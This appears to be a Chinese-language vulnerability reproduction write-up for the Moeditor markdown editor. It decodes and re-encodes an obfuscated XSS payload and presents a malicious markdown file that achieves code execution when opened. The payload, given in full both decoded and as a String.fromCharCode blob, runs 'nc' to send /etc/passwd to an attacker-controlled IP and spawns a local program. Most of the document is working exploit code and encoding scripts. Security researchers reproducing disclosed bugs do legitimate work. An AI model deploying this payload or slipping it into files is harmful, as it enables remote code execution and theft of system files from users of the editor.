

参考文章：https://mp.weixin.qq.com/s/qWU8LIwXHkc47zaZhCnLRQ  
原文只给出了payload和复现截图，没有过程，此文算作“稍微逆向”吧

# 0x00 “稍微逆向”
通过对原文payload中的如下ascii码
```
60,97,117,100,105,111,32,115,114,99,61,120,32,111,110,101,114,114,111,114,61,34,99,111,110,115,116,32,101,120,101,99,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,59,101,120,101,99,40,39,110,99,32,45,119,32,51,32,49,57,50,46,49,54,56,46,51,49,46,50,54,32,49,51,51,55,32,60,32,47,101,116,99,47,112,97,115,115,119,100,39,44,32,40,101,44,32,115,116,100,111,117,116,44,32,115,116,100,101,114,114,41,61,62,32,123,32,105,102,32,40,101,32,105,110,115,116,97,110,99,101,111,102,32,69,114,114,111,114,41,32,123,99,111,110,115,111,108,101,46,101,114,114,111,114,40,101,41,59,32,116,104,114,111,119,32,101,59,32,125,32,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,111,117,116,32,39,44,32,115,116,100,111,117,116,41,59,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,101,114,114,32,39,44,32,115,116,100,101,114,114,41,59,125,41,59,97,108,101,114,116,40,39,74,97,107,121,39,41,34,62,60,115,99,114,105,112,116,62,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,118,97,114,32,101,110,118,95,32,61,32,91,93,59,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,60,47,115,99,114,105,112,116,62
```
使用如下python脚本进行解码
```
def get_char_from_ascii(input_str):
    fake_integer_list = input_str.split(",");
    list_len = len(fake_integer_list);
    new_str = "";
    for integer in fake_integer_list:
        integer = int(integer);
        char = chr(integer);
        new_str += char;
    return list_len, new_str;

def result_of_get_char_from_ascii():
    input_str = "60,97,117,100,105,111,32,115,114,99,61,120,32,111,110,101,114,114,111,114,61,34,99,111,110,115,116,32,101,120,101,99,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,59,101,120,101,99,40,39,110,99,32,45,119,32,51,32,49,57,50,46,49,54,56,46,51,49,46,50,54,32,49,51,51,55,32,60,32,47,101,116,99,47,112,97,115,115,119,100,39,44,32,40,101,44,32,115,116,100,111,117,116,44,32,115,116,100,101,114,114,41,61,62,32,123,32,105,102,32,40,101,32,105,110,115,116,97,110,99,101,111,102,32,69,114,114,111,114,41,32,123,99,111,110,115,111,108,101,46,101,114,114,111,114,40,101,41,59,32,116,104,114,111,119,32,101,59,32,125,32,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,111,117,116,32,39,44,32,115,116,100,111,117,116,41,59,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,101,114,114,32,39,44,32,115,116,100,101,114,114,41,59,125,41,59,97,108,101,114,116,40,39,74,97,107,121,39,41,34,62,60,115,99,114,105,112,116,62,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,118,97,114,32,101,110,118,95,32,61,32,91,93,59,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,60,47,115,99,114,105,112,116,62";
    list_len, new_str = get_char_from_ascii(input_str);
    print("Length is:");
    print( str(list_len) );
    print();
    print("The first char is:");
    print( chr(60) );
    print();
    print("The last char is:");
    print( chr(62) );
    print();
    print("String is: ");
    print(new_str);
```
得到如下字符串
```
<audio src=x onerror="const exec= require('child_process').exec;exec('nc -w 3 192.168.31.26 1337 < /etc/passwd', (e, stdout, stderr)=> { if (e instanceof Error) {console.error(e); throw e; } console.log('stdout ', stdout);console.log('stderr ', stderr);});alert('Jaky')"><script>var Process = process.binding('process_wrap').Process;var proc = new Process();proc.onexit = function(a,b) {};var env = process.env;var env_ = [];for (var key in env) env_.push(key+'='+env[key]);proc.spawn({file:'/usr/bin/gnome-calculator',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});</script>
```
修改字符串中的ip地址为自己的ip地址，并使用如下python脚本再次编码为ascii码
```
def get_ascii_from_char(input_str):
    new_list = [];
    for i in input_str:
        integer_element = ord(i);
        new_list.append(integer_element);
    list_len = len(new_list);
    return list_len, new_list;

def result_of_get_ascii_from_char():
    input_str = '''
    <audio src=x onerror="const exec=require('child_process').exec;exec('nc -w 3 192.168.202.129 1337 < /etc/passwd',(e,stdout,stderr)=> { if (e instanceof Error) {console.error(e); throw e; } console.log('stdout ', stdout);console.log('stderr ', stderr);});alert('Jaky')"><script>var Process = process.binding('process_wrap').Process;var proc = new Process();proc.onexit = function(a,b) {};var env = process.env;var env_ = [];for (var key in env) env_.push(key+'='+env[key]);proc.spawn({file:'/usr/bin/gnome-calculator',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});</script>
    ''';
    list_len, new_list = get_ascii_from_char(input_str);
    print("Length is:");
    print( str(list_len) );
    print("Ascii is: ");
    print(new_list);
```
输出后的格式为
```
[10, 32, 32, 32, 32, 60, 97, 117, 100, 105, 111, 32, 115, 114, 99, 61, 120, 32, 111, 110, 101, 114, 114, 111, 114, 61, 34, 99, 111, 110, 115, 116, 32, 101, 120, 101, 99, 61, 114, 101, 113, 117, 105, 114, 101, 40, 39, 99, 104, 105, 108, 100, 95, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 101, 120, 101, 99, 59, 101, 120, 101, 99, 40, 39, 110, 99, 32, 45, 119, 32, 51, 32, 49, 57, 50, 46, 49, 54, 56, 46, 50, 48, 50, 46, 49, 50, 57, 32, 49, 51, 51, 55, 32, 60, 32, 47, 101, 116, 99, 47, 112, 97, 115, 115, 119, 100, 39, 44, 40, 101, 44, 115, 116, 100, 111, 117, 116, 44, 115, 116, 100, 101, 114, 114, 41, 61, 62, 32, 123, 32, 105, 102, 32, 40, 101, 32, 105, 110, 115, 116, 97, 110, 99, 101, 111, 102, 32, 69, 114, 114, 111, 114, 41, 32, 123, 99, 111, 110, 115, 111, 108, 101, 46, 101, 114, 114, 111, 114, 40, 101, 41, 59, 32, 116, 104, 114, 111, 119, 32, 101, 59, 32, 125, 32, 99, 111, 110, 115, 111, 108, 101, 46, 108, 111, 103, 40, 39, 115, 116, 100, 111, 117, 116, 32, 39, 44, 32, 115, 116, 100, 111, 117, 116, 41, 59, 99, 111, 110, 115, 111, 108, 101, 46, 108, 111, 103, 40, 39, 115, 116, 100, 101, 114, 114, 32, 39, 44, 32, 115, 116, 100, 101, 114, 114, 41, 59, 125, 41, 59, 97, 108, 101, 114, 116, 40, 39, 121, 98, 100, 116, 39, 41, 34, 62, 60, 115, 99, 114, 105, 112, 116, 62, 118, 97, 114, 32, 80, 114, 111, 99, 101, 115, 115, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 98, 105, 110, 100, 105, 110, 103, 40, 39, 112, 114, 111, 99, 101, 115, 115, 95, 119, 114, 97, 112, 39, 41, 46, 80, 114, 111, 99, 101, 115, 115, 59, 118, 97, 114, 32, 112, 114, 111, 99, 32, 61, 32, 110, 101, 119, 32, 80, 114, 111, 99, 101, 115, 115, 40, 41, 59, 112, 114, 111, 99, 46, 111, 110, 101, 120, 105, 116, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 97, 44, 98, 41, 32, 123, 125, 59, 118, 97, 114, 32, 101, 110, 118, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 101, 110, 118, 59, 118, 97, 114, 32, 101, 110, 118, 95, 32, 61, 32, 91, 93, 59, 102, 111, 114, 32, 40, 118, 97, 114, 32, 107, 101, 121, 32, 105, 110, 32, 101, 110, 118, 41, 32, 101, 110, 118, 95, 46, 112, 117, 115, 104, 40, 107, 101, 121, 43, 39, 61, 39, 43, 101, 110, 118, 91, 107, 101, 121, 93, 41, 59, 112, 114, 111, 99, 46, 115, 112, 97, 119, 110, 40, 123, 102, 105, 108, 101, 58, 39, 47, 117, 115, 114, 47, 98, 105, 110, 47, 103, 110, 111, 109, 101, 45, 99, 97, 108, 99, 117, 108, 97, 116, 111, 114, 39, 44, 99, 119, 100, 58, 110, 117, 108, 108, 44, 119, 105, 110, 100, 111, 119, 115, 86, 101, 114, 98, 97, 116, 105, 109, 65, 114, 103, 117, 109, 101, 110, 116, 115, 58, 102, 97, 108, 115, 101, 44, 100, 101, 116, 97, 99, 104, 101, 100, 58, 102, 97, 108, 115, 101, 44, 101, 110, 118, 80, 97, 105, 114, 115, 58, 101, 110, 118, 95, 44, 115, 116, 100, 105, 111, 58, 91, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 93, 125, 41, 59, 60, 47, 115, 99, 114, 105, 112, 116, 62, 10, 32, 32, 32, 32]
```
这种格式在javascript中不能被正确解析，需要再次处理，使用如下脚本处理
```
def cut_blank():
    input_str = "10, 32, 32, 32, 32, 60, 97, 117, 100, 105, 111, 32, 115, 114, 99, 61, 120, 32, 111, 110, 101, 114, 114, 111, 114, 61, 34, 99, 111, 110, 115, 116, 32, 101, 120, 101, 99, 61, 114, 101, 113, 117, 105, 114, 101, 40, 39, 99, 104, 105, 108, 100, 95, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 101, 120, 101, 99, 59, 101, 120, 101, 99, 40, 39, 110, 99, 32, 45, 119, 32, 51, 32, 49, 57, 50, 46, 49, 54, 56, 46, 50, 48, 50, 46, 49, 50, 57, 32, 49, 51, 51, 55, 32, 60, 32, 47, 101, 116, 99, 47, 112, 97, 115, 115, 119, 100, 39, 44, 40, 101, 44, 115, 116, 100, 111, 117, 116, 44, 115, 116, 100, 101, 114, 114, 41, 61, 62, 32, 123, 32, 105, 102, 32, 40, 101, 32, 105, 110, 115, 116, 97, 110, 99, 101, 111, 102, 32, 69, 114, 114, 111, 114, 41, 32, 123, 99, 111, 110, 115, 111, 108, 101, 46, 101, 114, 114, 111, 114, 40, 101, 41, 59, 32, 116, 104, 114, 111, 119, 32, 101, 59, 32, 125, 32, 99, 111, 110, 115, 111, 108, 101, 46, 108, 111, 103, 40, 39, 115, 116, 100, 111, 117, 116, 32, 39, 44, 32, 115, 116, 100, 111, 117, 116, 41, 59, 99, 111, 110, 115, 111, 108, 101, 46, 108, 111, 103, 40, 39, 115, 116, 100, 101, 114, 114, 32, 39, 44, 32, 115, 116, 100, 101, 114, 114, 41, 59, 125, 41, 59, 97, 108, 101, 114, 116, 40, 39, 121, 98, 100, 116, 39, 41, 34, 62, 60, 115, 99, 114, 105, 112, 116, 62, 118, 97, 114, 32, 80, 114, 111, 99, 101, 115, 115, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 98, 105, 110, 100, 105, 110, 103, 40, 39, 112, 114, 111, 99, 101, 115, 115, 95, 119, 114, 97, 112, 39, 41, 46, 80, 114, 111, 99, 101, 115, 115, 59, 118, 97, 114, 32, 112, 114, 111, 99, 32, 61, 32, 110, 101, 119, 32, 80, 114, 111, 99, 101, 115, 115, 40, 41, 59, 112, 114, 111, 99, 46, 111, 110, 101, 120, 105, 116, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 97, 44, 98, 41, 32, 123, 125, 59, 118, 97, 114, 32, 101, 110, 118, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 101, 110, 118, 59, 118, 97, 114, 32, 101, 110, 118, 95, 32, 61, 32, 91, 93, 59, 102, 111, 114, 32, 40, 118, 97, 114, 32, 107, 101, 121, 32, 105, 110, 32, 101, 110, 118, 41, 32, 101, 110, 118, 95, 46, 112, 117, 115, 104, 40, 107, 101, 121, 43, 39, 61, 39, 43, 101, 110, 118, 91, 107, 101, 121, 93, 41, 59, 112, 114, 111, 99, 46, 115, 112, 97, 119, 110, 40, 123, 102, 105, 108, 101, 58, 39, 47, 117, 115, 114, 47, 98, 105, 110, 47, 103, 110, 111, 109, 101, 45, 99, 97, 108, 99, 117, 108, 97, 116, 111, 114, 39, 44, 99, 119, 100, 58, 110, 117, 108, 108, 44, 119, 105, 110, 100, 111, 119, 115, 86, 101, 114, 98, 97, 116, 105, 109, 65, 114, 103, 117, 109, 101, 110, 116, 115, 58, 102, 97, 108, 115, 101, 44, 100, 101, 116, 97, 99, 104, 101, 100, 58, 102, 97, 108, 115, 101, 44, 101, 110, 118, 80, 97, 105, 114, 115, 58, 101, 110, 118, 95, 44, 115, 116, 100, 105, 111, 58, 91, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 93, 125, 41, 59, 60, 47, 115, 99, 114, 105, 112, 116, 62, 10, 32, 32, 32, 32";
    new_str = "";
    for i in input_str:
        if i == " ":
            continue;
        else:
            new_str += i;
    print(new_str);
```
处理后输出如下
```
10,32,32,32,32,60,97,117,100,105,111,32,115,114,99,61,120,32,111,110,101,114,114,111,114,61,34,99,111,110,115,116,32,101,120,101,99,61,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,59,101,120,101,99,40,39,110,99,32,45,119,32,51,32,49,57,50,46,49,54,56,46,50,48,50,46,49,50,57,32,49,51,51,55,32,60,32,47,101,116,99,47,112,97,115,115,119,100,39,44,40,101,44,115,116,100,111,117,116,44,115,116,100,101,114,114,41,61,62,32,123,32,105,102,32,40,101,32,105,110,115,116,97,110,99,101,111,102,32,69,114,114,111,114,41,32,123,99,111,110,115,111,108,101,46,101,114,114,111,114,40,101,41,59,32,116,104,114,111,119,32,101,59,32,125,32,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,111,117,116,32,39,44,32,115,116,100,111,117,116,41,59,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,101,114,114,32,39,44,32,115,116,100,101,114,114,41,59,125,41,59,97,108,101,114,116,40,39,121,98,100,116,39,41,34,62,60,115,99,114,105,112,116,62,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,118,97,114,32,101,110,118,95,32,61,32,91,93,59,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,60,47,115,99,114,105,112,116,62,10,32,32,32,32
```
用上述输出替换下面中的的ascii码部分
```
[<audio src=x onerror=writeln(String.fromCharCode(60,97,117,100,105,111,32,115,114,99,61,120,32,111,110,101,114,114,111,114,61,34,99,111,110,115,116,32,101,120,101,99,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,59,101,120,101,99,40,39,110,99,32,45,119,32,51,32,49,57,50,46,49,54,56,46,51,49,46,50,54,32,49,51,51,55,32,60,32,47,101,116,99,47,112,97,115,115,119,100,39,44,32,40,101,44,32,115,116,100,111,117,116,44,32,115,116,100,101,114,114,41,61,62,32,123,32,105,102,32,40,101,32,105,110,115,116,97,110,99,101,111,102,32,69,114,114,111,114,41,32,123,99,111,110,115,111,108,101,46,101,114,114,111,114,40,101,41,59,32,116,104,114,111,119,32,101,59,32,125,32,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,111,117,116,32,39,44,32,115,116,100,111,117,116,41,59,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,101,114,114,32,39,44,32,115,116,100,101,114,114,41,59,125,41,59,97,108,101,114,116,40,39,74,97,107,121,39,41,34,62,60,115,99,114,105,112,116,62,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,118,97,114,32,101,110,118,95,32,61,32,91,93,59,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,60,47,115,99,114,105,112,116,62))>](http://)
```

# 0x01 XSS漏洞复现
首先查看版本，如下图  
  
其次使用如下payload进行简单的XSS漏洞复现
```
<audio src=x onerror=confirm("ybdt")>
```
如下图  


# 0x02 任意文件读取漏洞复现
受害机：Ubuntu18.04.2_x64  
攻击机：Kali-2020.4-vmware-amd64  
受害机下需要有nc，先测试一下  
攻击机上执行
```
nc -l -p 1337
```
受害机上执行
```
nc -w 3 192.168.202.129 1337 < /etc/passwd
```
攻击机上收到命令执行后的输出，如下图  


Ubuntu18.04.2_x64下安装https://moeditor.js.org/  
Kali-2020.4-vmware-amd64下执行：nc -l -p 1337，如下图  
  
将最终payload
```
[<audio src=x onerror=writeln(String.fromCharCode(10,32,32,32,32,60,97,117,100,105,111,32,115,114,99,61,120,32,111,110,101,114,114,111,114,61,34,99,111,110,115,116,32,101,120,101,99,61,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,59,101,120,101,99,40,39,110,99,32,45,119,32,51,32,49,57,50,46,49,54,56,46,50,48,50,46,49,50,57,32,49,51,51,55,32,60,32,47,101,116,99,47,112,97,115,115,119,100,39,44,40,101,44,115,116,100,111,117,116,44,115,116,100,101,114,114,41,61,62,32,123,32,105,102,32,40,101,32,105,110,115,116,97,110,99,101,111,102,32,69,114,114,111,114,41,32,123,99,111,110,115,111,108,101,46,101,114,114,111,114,40,101,41,59,32,116,104,114,111,119,32,101,59,32,125,32,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,111,117,116,32,39,44,32,115,116,100,111,117,116,41,59,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,101,114,114,32,39,44,32,115,116,100,101,114,114,41,59,125,41,59,97,108,101,114,116,40,39,121,98,100,116,39,41,34,62,60,115,99,114,105,112,116,62,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,118,97,114,32,101,110,118,95,32,61,32,91,93,59,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,60,47,115,99,114,105,112,116,62,10,32,32,32,32))>](http://)
```
保存为ybdt.md，Ubuntu18.04.2_x64下使用moeditor打开，此时kali下收到命令的输出如下图  
  
  
moeditor执行后如下图  
  
